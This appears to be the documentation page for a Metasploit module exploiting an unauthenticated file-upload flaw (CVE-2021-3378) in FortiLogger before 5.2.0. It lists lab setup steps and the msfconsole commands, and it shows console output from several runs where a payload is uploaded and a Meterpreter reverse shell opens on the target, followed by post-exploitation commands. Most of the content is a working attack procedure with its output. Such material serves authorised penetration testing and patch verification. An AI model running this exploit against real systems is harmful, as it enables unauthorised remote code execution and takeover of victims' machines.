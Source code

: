 ## Vulnerable Application

FortiLogger is a web-based logging and reporting software designed specifically for FortiGate firewalls,
running on Windows operating systems. It contains features such as instant status tracking, logging, search / filtering,
reporting and hotspot.

This module exploits an unauthenticated arbitrary file upload via insecure `POST` request on company logo upload
for hotspot settings of FortiLogger < 5.2.0.  This exploit may not work if the host has been rebooted, though it
will fail gracefully.

You can download installation files from https://www.fortilogger.com/download

*Vendor has removed version 4.4.2.2 from web page of vendor for download.
You can download version 4.4.2.2 from https://github.com/erberkan/erberkan.github.io/raw/master/2021/cve-2021-3378/Fortilogger-4.4.2.zip*

Tested versions:

- 4.4.2.2
- 3.6.2.9
- 3.4.1.7

### Prerequisites

1. Start a Windows VM *(Tested on Windows 10 Enterprise)*
2. Install a vulnerable version which is any version less then 5.2.0 of FortiLogger via above url.
3. After installation, verify that the server is working by visiting it with a browser.
    - Default port: 5000
    - Default username:password - admin:admin


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/fortilogger_arbitrary_fileupload`
4. Set `RHOSTS`
5. Do: `run` or `exploit`
6. **Verify** that `The target is vulnerable. FortiLogger version [version number]` message appeared
7. **Verify** that payload uploaded to target system successfully: `Payload has been uploaded`
8. **Verify** that you getting a meterpreter session.

## Scenarios

```
msf6 > use exploit/windows/http/fortilogger_arbitrary_fileupload 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > show options 

Module options (exploit/windows/http/fortilogger_arbitrary_fileupload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.43     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      5000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the FortiLogger
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.46     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   FortiLogger < 5.2.0

```
### Version 4.4.2.2

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 4.4.2.2
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 1 opened (192.168.1.46:4444 -> 192.168.1.43:49771) at 2021-03-02 14:05:53 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### Version 3.6.2.9

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 3.6.2.9
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 2 opened (192.168.1.46:4444 -> 192.168.1.43:49764) at 2021-03-02 14:17:59 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### Version 3.4.1.7

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. FortiLogger version 3.4.1.7
[+] Generate Payload
[+] Payload has been uploaded
[*] Executing payload...
[*] Sending stage (175174 bytes) to 192.168.1.43
[*] Meterpreter session 3 opened (192.168.1.46:4444 -> 192.168.1.43:49791) at 2021-03-02 14:39:04 +0300

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > pwd
C:\Program Files\RZK\Fortilogger\App
meterpreter > 
```

### If target is not accessible

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[-] Exploit aborted due to failure: unreachable: No response from server
[*] Exploit completed, but no session was created.
```

### If target has version 5.2.0 or newest

```
msf6 exploit(windows/http/fortilogger_arbitrary_fileupload) > run

[*] Started reverse TCP handler on 192.168.1.46:4444 
[*] Executing automatic check (disable AutoCheck to override)
[-] Exploit aborted due to failure: unexpected-reply: The target may have been updated
[*] Exploit completed, but no session was created.
```

## Reference
1. https://erberkan.github.io/2021/cve-2021-3378/
